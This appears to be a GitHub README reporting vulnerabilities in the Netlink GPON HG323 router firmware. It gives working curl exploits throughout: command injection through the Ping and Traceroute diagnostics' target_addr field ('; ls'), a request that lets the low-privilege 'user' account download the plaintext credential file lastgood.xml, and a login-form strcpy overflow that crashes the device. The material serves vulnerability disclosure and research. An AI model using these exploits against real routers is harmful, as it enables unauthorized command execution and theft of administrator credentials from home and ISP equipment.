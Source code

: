 # Reverse Enginneer Netlink GPON HG323  router 

An attempt to reverse engineer Netlink hg323 router to find vulnerablities.

## Firmware : 1.0.16-191118

## RCE
Remote code can be executed by  exploiting either of the daignostics tool "Ping" or "Tracert". Inorder for this to work we should be logged in either as "user" or "admin"

### 1. formPing

vulnerable code


    snprintf(cmd_to_execute,0x100,"ping %s -c 4 -I %s -w 5 %s > /tmp/ping.tmp",param,interface_name,target_addr);


Here we can supply the "target_addr" with  "; payload"

exploit 

    curl -s -L -d 'target_addr=1.1.1.1+;+ls&waninf=1_INTERNET_R_VID_' 'http://192.168.1.1/boaform/admin/formPing'


### 2. formTracert

similar to formPing

vulnerable code

    snprintf(cmd_to_execute,0x200,"traceroute %s -I -i %s %s > /tmp/tracert.tmp",param,&some_param,target_addr);

exploit

    curl -s -L -d 'target_addr=1.1.1.1+;+ls&waninf=1_INTERNET_R_VID_' 'http://192.168.1.1/boaform/admin/formTracert'

## Dumping creds
We can use the rce exploit to view "/var/config/lastgood.xml" to view passwords or

There are two usernames for the web app
"user" and superuser "admin".
we can abuse the save  config file feature of admin  to get the config file while logged in as "user"

of course the passwords are stored in plain text.


exploit 


curl -s -L -d 'action=saveconfigfile&submit-url=' 'http://192.168.1.1/boaform/admin/formMgmConfig'

This gets the file "/var/config/lastgood.xml" 

## Buffer overflow
Buffer overflow in login form, Great!. One hell of a secure router!.

### vulnerable code

    strcpy(username, input_username)

curl http://192.168.1.1/boaform/admin/formLogin_en  --data-raw 'username=AAAAAAAAAA.....&psd=blah'

This would crash the router.
Easiest way to leverage this buffer overflow to use 'saveconfig" funtion,
which will get the "last_good.xml', then login and enable shell or whatever.









